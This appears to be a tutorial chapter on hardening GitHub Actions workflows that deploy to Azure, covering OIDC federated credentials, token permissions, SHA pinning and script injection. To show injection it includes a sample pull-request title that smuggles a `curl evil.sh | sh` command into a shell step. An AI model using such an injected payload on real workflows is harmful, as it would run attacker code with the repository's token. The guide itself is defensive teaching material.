

# Secrets, OIDC to Azure, and hardened workflows
[← Overview](00-overview.md)

## Why it matters
- A service principal client secret stored in GitHub for deployments never expires and never gets rotated. It leaks through a debug `echo` and gives full access to the subscription.
- A workflow runs `echo "${{ github.event.pull_request.title }}"`. A PR titled `"; curl evil.sh | sh; "` runs code with the workflow's token.
- A popular third-party action is compromised and its tag is moved to malicious code; every workflow using `@v3` runs it the next day.

## Concepts

### Secrets and variables
| Kind | Scope | Use |
|:--|:--|:--|
| repository secret | all workflows in a repo | API tokens that can't use OIDC |
| environment secret | jobs that target that environment | production-only values, protected by approvals |
| organization secret | selected repos | shared tokens |
| variable (`vars.X`) | non-secret config | Azure region, resource names, client IDs |
| `GITHUB_TOKEN` | per run, auto-expiring | GitHub API calls, scoped by `permissions` |

Secrets are masked in logs, but transformed values (base64, JSON fragments) may not be. Never print them; never pass them to untrusted code.

### OIDC instead of long-lived cloud keys
GitHub issues a short-lived OIDC token per job. Azure trusts it through a **federated credential** on a user-assigned managed identity (or app registration) and returns an Azure access token. No secret is stored anywhere.


The federated credential's **subject** decides who can log in: `repo:org/shop:environment:production`, `repo:org/shop:ref:refs/heads/main`, or `repo:org/shop:pull_request`. Use environment subjects for deploys so approvals apply.

```bash
az identity federated-credential create \
  --name gh-production --identity-name id-shop-deploy --resource-group rg-shop \
  --issuer https://token.actions.githubusercontent.com \
  --subject repo:org/shop:environment:production \
  --audiences api://AzureADTokenExchange
```
Grant that identity only the roles it needs (e.g. `AcrPush` on the registry, `Contributor` on the Container App's resource group).

### Hardened workflows
| Risk | Control |
|:--|:--|
| ⭐ over-privileged `GITHUB_TOKEN` | `permissions: contents: read` at workflow top; add per job |
| ⭐ mutable action tags | pin third-party actions to a full commit SHA (`uses: owner/action@<40-char-sha> # v2.1.0`); Dependabot updates them |
| ⭐ script injection | never put `${{ github.event.* }}` (titles, branch names, bodies) inside `run:`; pass through `env:` and quote |
| `pull_request_target` | runs with secrets on the base repo; never check out and run PR code in it |
| forks | `pull_request` from forks gets no secrets and a read-only token (good default) |
| self-hosted runners on public repos | anyone's PR can run code on them; use GitHub-hosted |
| artifact poisoning | don't execute artifacts produced by untrusted runs |
| secrets in logs | `::add-mask::` for derived values; no `set -x` around secrets |
| supply chain | allowlist actions at org level; Dependabot for `github-actions` ecosystem |

Also seen: `step-security/harden-runner` for egress monitoring, OpenSSF Scorecard for repo checks, `zizmor` for linting workflows.

## Example
`.github/workflows/deploy.yml` (excerpt)
```yaml
name: deploy
on:
  push:
    branches: [main]

permissions:
  contents: read

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: production          # approvals + environment secrets + OIDC subject
    permissions:
      contents: read
      id-token: write                # needed to request the OIDC token
    steps:
      - uses: actions/checkout@<full-commit-sha> # v5.x — copy the SHA of the release you reviewed
      - uses: azure/login@v2
        with:
          client-id: ${{ vars.AZURE_CLIENT_ID }}
          tenant-id: ${{ vars.AZURE_TENANT_ID }}
          subscription-id: ${{ vars.AZURE_SUBSCRIPTION_ID }}
      - name: Deploy image
        env:
          IMAGE: ${{ vars.ACR_NAME }}.azurecr.io/shop-api:${{ github.sha }}
        run: |
          az containerapp update --name ca-shop-api --resource-group rg-shop --image "$IMAGE"
```
Script injection, wrong and right:
```yaml
# Wrong
- run: echo "Deploying ${{ github.event.head_commit.message }}"
# Right
- run: echo "Deploying $MSG"
  env:
    MSG: ${{ github.event.head_commit.message }}
```

## Production patterns
- OIDC for Azure, NuGet (trusted publishing where available), and any provider that supports it; secrets only where nothing else works.
- Client, tenant, and subscription IDs are identifiers, not secrets: store them as variables.
- One managed identity per environment, federated to that environment's subject, with least-privilege roles.
- Dependabot config with `package-ecosystem: github-actions` to bump pinned SHAs.

## Mistakes
Wrong: a client secret in a secret, valid for two years.
```yaml
creds: ${{ secrets.AZURE_CREDENTIALS }}
```
Right: `azure/login@v2` with `client-id`, `tenant-id`, `subscription-id`, and `id-token: write`.

Wrong: default permissions (`write-all` on older repos).
Right: `permissions: contents: read` at the top of every workflow.

## Check yourself
1. Which permission must a job have to log in to Azure with OIDC?
2. Why is `environment:production` a better OIDC subject than `ref:refs/heads/main` for deploys?
3. What is wrong with `run: echo ${{ github.event.pull_request.title }}`?

<details><summary>Answers</summary>

1. `id-token: write`.
2. Only jobs that target the production environment, and therefore pass its protection rules and approvals, can get the token.
3. The title is attacker-controlled text interpolated into the shell script before it runs: script injection.
</details>

## Sources
- [Security hardening for GitHub Actions](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)
- [About security hardening with OpenID Connect](https://docs.github.com/en/actions/security-for-github-actions/security-hardening-your-deployments/about-security-hardening-with-openid-connect)
- [Connect from Azure with OpenID Connect](https://learn.microsoft.com/azure/developer/github/connect-from-azure-openid-connect)
- [azure/login](https://github.com/Azure/login)
- [GitHub Security Lab — Preventing pwn requests](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)
